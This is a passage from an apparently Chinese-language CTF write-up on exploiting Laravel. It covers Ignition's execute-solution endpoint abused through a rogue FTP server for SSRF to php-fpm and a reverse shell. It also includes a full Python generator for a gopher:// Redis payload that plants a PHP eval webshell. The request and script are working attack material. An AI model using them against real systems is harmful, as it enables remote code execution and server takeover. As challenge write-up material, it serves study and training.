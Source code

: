 ![img](https://p5.ssl.qhimg.com/t01ca2d58a2bb169e1b.png)

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的payload；当客户端第二次连接的时候将客户端的连接重定向到 127.0.0.1:9000，也就是目标主机上 php-fpm 服务的端口，从而造成 SSRF，攻击其 php-fpm。

最后，构造如下请求，即可触发攻击并反弹 Shell：

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.1.12:8000
Content-Type: application/json
Content-Length: 189

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "ftp://aaa@192.168.1.7:23/123"
  }
}
```

### [2021 羊城杯CTF]Cross The Side

进入题目，又是 Laravel：

![img](https://p0.ssl.qhimg.com/t01b842dcb0f7448899.png)

根据 Laravel 的版本猜测应该是 Laravel Debug mode RCE，但是尝试 Debug RCE  并没有成功，可能是日志文件太大的原因。然后端口扫描发现其本地 6379 端口上有一个 Redis，猜测本题应该是通过 FTP 被动模式打内网的  Redis。参照前面所讲的原理，直接打就行了。

首先生成攻击 Redis 的 Gophar Payload：

```python
import urllib
protocol="gopher://"
ip="127.0.0.1"
port="6379"
shell="\n\n<?php eval($_POST[\"whoami\"]);?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""    # 此处也可以填入Redis的密码, 在不存在Redis未授权的情况下适用
cmd=["flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print payload
```

